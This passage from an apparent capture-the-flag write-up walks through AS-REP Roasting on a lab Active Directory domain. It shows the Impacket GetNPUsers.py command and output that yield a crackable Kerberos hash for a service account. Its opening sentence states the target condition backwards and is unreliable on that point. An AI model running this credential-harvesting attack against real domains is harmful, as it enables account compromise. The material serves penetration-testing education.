 Next, look for user accounts that do not have the property 'Do not require Kerberos preauthentication' (`UF_DONT_REQUIRE_PREAUTH`) set.<br>
This attack is called [AS-REP Roasting](https://blog.stealthbits.com/cracking-active-directory-passwords-with-as-rep-roasting/).<br>
Pre-authentication is needed for the issue of TGT ticket during the Kerberos authentication. If it's disabled, DC would provide an encrypted TGT that can be cracked offline when requested.<br>
We can use `GetNPUsers.py` in [Impacket](https://github.com/SecureAuthCorp/impacket) to implement this attack.
```shell
root@kali:~# python impacket/examples/GetNPUsers.py -format john -no-pass -usersfile ./users.txt -dc-ip 10.10.10.161 htb.local/
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB.LOCAL:6af93fd6240b0fefd6d873241b5d352c$6832d233ac0a0c1368ec9200b2444865ade034b1429891463c299c7867711a22f29685d2db22168302a9c2452db13faf64a81bbd6817822c4416416d3abdcc2a0d34815ba984ce8402f00011a993d7a4945ff8c9a2ebbc7bfa660c5197f571788f60702edd25cd4613ce79c0ca60c1ad31715d485a3b31b11641cc29e0be312455f698203f0e679d0c21cd900b436bfceaf1a21629408c0e0e104b7ab2e6d2bcfe0bc613fd118fce806f7985ea778f08c0e0060b6c618b83b78cced44f989bcfa0d3af6e191b324297b5701114b4c67266aaa56ea9a825a61a73b3b75d89d18d8c70b0ddc115
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
```
